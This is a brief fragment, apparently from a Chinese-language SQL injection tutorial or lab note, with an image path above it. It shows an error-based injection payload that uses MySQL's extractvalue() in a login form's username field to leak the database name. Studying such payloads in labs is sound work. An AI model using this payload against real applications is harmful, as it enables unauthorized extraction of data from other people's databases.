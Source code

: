 `extractvalue()`

列如：`uname=admin' and  extractvalue(1,concat(0x7e,(select database())))--+&passwd=admin&submit=Submit`

